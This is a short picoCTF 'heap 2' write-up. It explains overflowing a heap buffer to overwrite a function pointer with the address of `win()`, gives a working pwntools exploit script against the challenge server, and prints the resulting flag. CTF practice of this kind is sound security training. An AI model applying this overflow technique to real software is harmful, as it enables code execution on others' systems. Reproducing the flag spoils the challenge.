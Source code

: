 ```yaml
---
ai_date: 2025-04-27 05:29:34
ai_summary: Exploited heap overflow to overwrite x as a pointer, pointing to 'win()' function, achieving remote code execution (RCE) in a 64-bit environment.
ai_tags:
  - heap
  - rop
  - rce
created: 2024-08-08T01:09
updated: 2025-07-14T09:46
---
```


Just like `heap 1` we need to overwrite `x`.

| Variable     | Address     | Data   |
| ------------ | ----------- | ------ |
| `input_data` | `0x1d902b0` | `pico` |
| `x`          | `0x1d902d0` | `bico` |

But this time `x` will be used as a pointer and run.

We want it to point to `win()` of course.

Since we are in the 64bit world the pointer should be 64 bit too.

```python
from pwn import *
elf = context.binary = ELF("./chall")
t = remote('mimas.picoctf.net', 59926)
# t = elf.process()
t.sendlineafter(b": ", b"2")
t.sendlineafter(b": ", b"A"*32+p64(elf.symbols['win']))
t.sendlineafter(b": ", b"4")
info(t.recvall())
```

```flag
picoCTF{and_down_the_road_we_go_dde41590}
```